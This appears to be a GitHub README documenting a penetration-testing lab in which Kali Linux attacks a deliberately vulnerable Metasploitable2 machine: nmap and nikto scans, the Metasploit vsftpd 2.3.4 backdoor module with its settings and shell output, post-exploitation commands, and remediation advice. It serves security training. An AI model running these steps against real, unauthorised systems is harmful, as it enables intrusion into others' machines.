

# 🛡️ Ethical Hacking Lab: Exploiting vsftpd 2.3.4 on Metasploitable2

This project demonstrates the penetration testing lifecycle in a safe, controlled lab environment using Kali Linux against a vulnerable Metasploitable2 machine.

The lab simulates real-world attack scenarios and documents the process of:

- Service enumeration

- Vulnerability discovery

- Exploitation with Metasploit

- Post-exploitation evidence gathering

- Defensive remediation recommendations

---

## 🖥️ Lab Setup

| Role            | Machine           | OS/Tool Used     |
|-----------------|-------------------|------------------|
| Attacker        | Kali Linux (VM)   | Kali 2025.1c     |
| Victim          | Metasploitable2   | Linux (Ubuntu)   |
| Virtual Network | Host-Only (VMnet1)| VMware Workstation 17 Player |

---

## 🧰 Tools Used

- [Kali Linux](https://www.kali.org/)  
- [Metasploitable2](https://sourceforge.net/projects/metasploitable/)  
- [Nmap](https://nmap.org/)
- [Nikto](https://github.com/sullo/nikto)
- [Metasploit Framework](https://www.metasploit.com/)

---

## 🔍 Phase 1: Reconnaissance and Scanning

### **Nmap Command:**
```bash
nmap -sS -sV -O -A <victim-ip>
```

### 📌 Notable Results:
- **Port 21:** FTP — vsftpd 2.3.4 *(known backdoor vulnerability)*
- **Port 22:** OpenSSH 4.7p1 Debian
- **Port 23:** Telnet enabled
- **Port 25:** Exim mail server
- **Port 80:** Apache 2.2.8 *(outdated)*
- **Port 3306:** MySQL database server
- **Port 5432:** PostgreSQL database server
- **Port 8180:** Apache Tomcat/5.5.20 *(default credentials enabled)*
- **Port 139/445:** Samba file sharing service

<p align="center">
  
</p>

---

## 🌐 Phase 2: Web Vulnerability Scan with Nikto

### **Nikto Command:**
```bash
nikto -h http://<victim-ip>
```

### 📌 Notable Results:
- Apache version is outdated (2.2.8)
- HTTP TRACE method is enabled *(XST vulnerability)*
- PHP version is outdated (5.2.4-2ubuntu5.10)
- `/phpinfo.php` is exposed *(leaks environment variables)*
- `/phpmyadmin` and changelogs are exposed
- Directory indexing is enabled
- CVE-2009-3555 and other known Apache vulnerabilities are present

<p align="center">
  
</p>

---

## 💥 Phase 3: Exploitation with Metasploit (vsftpd 2.3.4 Backdoor)

### **Commands Used:**
```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <victim-ip>
set RPORT 21
run
```

### 💣 Result:
```
[*] 192.168.X.X:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.X.X:21 - Exploit completed, but no session was created
[*] 192.168.X.X:21 - Attempting to trigger backdoor...
[*] Command shell session 1 opened
```

---

## 🛠 Post-Exploitation Commands:
```bash
whoami
uname -a
hostname
id
```

### 📌 Output:
- **OS:** Linux metasploitable 2.6.x
- **Hostname:** metasploitable
- **Access:** Remote shell confirmed

<p align="center">
  
  <br/>
  
</p>

---

## 🛡️ Defensive Remediation Recommendations

To strengthen security and prevent exploitation of services like vsftpd 2.3.4, the following defensive measures should be implemented:

- Patch Management & Updates

Immediately upgrade vsftpd to the latest supported version.

Implement an automated patch management process for all network services.

- Service Hardening

Disable or remove unused services (e.g., FTP if not required).

Enforce secure protocols (replace FTP with SFTP/FTPS).

Apply principle of least privilege to service accounts.

- Network Security Controls

Restrict FTP access using firewall rules and IP whitelisting.

Place vulnerable services in isolated VLANs/DMZs.

Deploy an Intrusion Detection/Prevention System (IDS/IPS) to monitor unusual traffic.

- Logging & Monitoring

Enable detailed FTP logging and centralize logs with a SIEM.

Set up alerts for failed logins, suspicious usernames, or backdoor attempts.

- Incident Response & Recovery

Maintain regular, tested backups of critical systems.

Develop a response plan for service compromise (isolation, reimaging, patching).

---

## 🧠 Lessons Learned

How to perform recon using Nmap and Nikto  
Identifying and exploiting real vulnerabilities  
Gaining shell access using Metasploit  
Importance of isolating testing environments  
How to document and present offensive security findings

---

## 🔒 Disclaimer

This lab was conducted in a secure, offline environment using intentionally vulnerable systems.  
Do NOT attempt these techniques on unauthorized or production systems.  
This project is for educational and professional development purposes only.

---

## 🙋 Author

Crystal Hicks  
Information Security Analyst  
Linkedin: https://www.linkedin.com/in/crystal-brown333


